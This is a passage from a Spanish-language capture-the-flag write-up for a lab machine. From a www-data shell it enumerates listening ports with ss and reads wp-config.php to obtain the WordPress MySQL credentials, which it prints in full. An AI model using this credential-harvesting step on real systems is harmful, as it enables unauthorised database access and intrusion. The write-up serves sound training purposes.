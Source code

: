 Si recordamos, **WordPress** puede trabajar en conjunto con **MySQL**, por lo que puede estar activo.

Podemos comprobarlo si la máquina tiene la herramienta **netstat** o **ss**, pero en esta máquina solo tenemos **ss**:
```bash
www-data@TheHackersLabs-Thefirstavenger:/home$ which ss
/usr/bin/ss
www-data@TheHackersLabs-Thefirstavenger:/home$ ss -tuln
Netid           State             Recv-Q            Send-Q                                           Local Address:Port                        Peer Address:Port           Process           
...
tcp             LISTEN            0                 151                                                  127.0.0.1:3306                             0.0.0.0:*                                
tcp             LISTEN            0                 4096                                                127.0.0.54:53                               0.0.0.0:*                                
tcp             LISTEN            0                 4096                                             127.0.0.53%lo:53                               0.0.0.0:*                                
tcp             LISTEN            0                 70                                                   127.0.0.1:33060                            0.0.0.0:*                                
tcp             LISTEN            0                 128                                                  127.0.0.1:7092                             0.0.0.0:*                                
tcp             LISTEN            0                 511                                                          *:80                                     *:*                                
tcp             LISTEN            0                 4096                                                         *:22                                     *:*
```
Observa los puertos activos, ahí encontramos no solo el **servicio MySQL**, sino que hay otro puerto activo que no sabemos que está ejecutando.

Tengamos en mente ese puerto para más adelante, por lo mientras, vamos a enumerar las bases de datos del **servicio MySQL**.

<br>

<h2 id="MySQL">Enumeración del Servicio MySQL y Ganando Acceso a la Máquina Víctima Vía SSH</h2>

Es posible que encontremos credenciales válidas para entrar al **MySQL** en el archivo **wp-config.php**.

Este, lo puedes encontrar en el directorio principal donde se desplegó **WordPress**:
```bash
www-data@TheHackersLabs-Thefirstavenger:/home$ cd /var/www/html/wp1
www-data@TheHackersLabs-Thefirstavenger:/var/www/html/wp1$ ls -la | grep wp-config.php
-rw-rw-rw-  1 www-data www-data  3346 Oct  8  2024 wp-config.php
```

Vamos a leerlo:
```bash
www-data@TheHackersLabs-Thefirstavenger:/var/www/html/wp1$ cat wp-config.php
...
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wordpress' );

/** Database password */
define( 'DB_PASSWORD', '9pXYwXSnap`4pqpg~7TcM9bPVXY&~RM9i3nnex%r' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
```